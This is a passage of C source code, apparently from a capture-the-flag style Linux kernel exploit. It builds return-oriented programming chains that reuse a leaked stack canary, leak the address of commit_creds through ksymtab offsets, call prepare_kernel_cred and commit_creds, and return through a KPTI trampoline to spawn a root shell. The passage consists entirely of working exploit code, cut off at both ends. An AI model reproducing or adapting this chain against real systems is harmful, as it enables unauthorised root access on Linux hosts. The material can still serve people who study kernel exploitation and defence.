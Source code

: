 ```c
        ropchain[i++] = 0;
        ropchain[i++] = get_shell2;
        ropchain[i++] = tf.cs;
        ropchain[i++] = tf.eflags;
        ropchain[i++] = tf.rsp;
        ropchain[i++] = tf.ss;
        printf("[*] Never reach! try to write to kernel, return %ld \n", write(fd, buf, 0x150));
}

void get_root(){
        char buf[0x150];
        memset(buf, '\x00', 0x150);
        unsigned long long *ropchain = (long long unsigned *)buf;
        int i = 16;
        ropchain[i++] = canary;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = gadget1;
        ropchain[i++] = 0;
        ropchain[i++] = prepare_kernel_cred;
        ropchain[i++] = kpti_gadget;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = get_shell;
        ropchain[i++] = tf.cs;
        ropchain[i++] = tf.eflags;
        ropchain[i++] = tf.rsp;
        ropchain[i++] = tf.ss;
        printf("[*] Never reach! try to write to kernel, return %ld \n", write(fd, buf, 0x150));
}

void leak2(){
        __asm__(
                "mov tmp_store, rax;"
        );
        commit_creds = ksymtab_commit_creds + (int)tmp_store;
        printf("[*] commit_creds: %p\n", commit_creds);
        get_root();
}

void get_addr2(){
        char buf[0x150];
        memset(buf, '\x00', 0x150);
        unsigned long long *ropchain = (long long unsigned *)buf;
        int i = 16;
        ropchain[i++] = canary;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = gadget2;
        ropchain[i++] = ksymtab_commit_creds - 0x10;
        ropchain[i++] = gadget3;
        ropchain[i++] = 0;
        ropchain[i++] = kpti_gadget;
        ropchain[i++] = 0;
        ropchain[i++] = 0;
        ropchain[i++] = leak2;
        ropchain[i++] = tf.cs;
        ropchain[i++] = tf.eflags;
        ropchain[i++] = tf.rsp;
        ropchain[i++] = tf.ss;
        printf("[*] Never reach! try to read from kernel, return %ld \n", write(fd, buf, 0x150));
```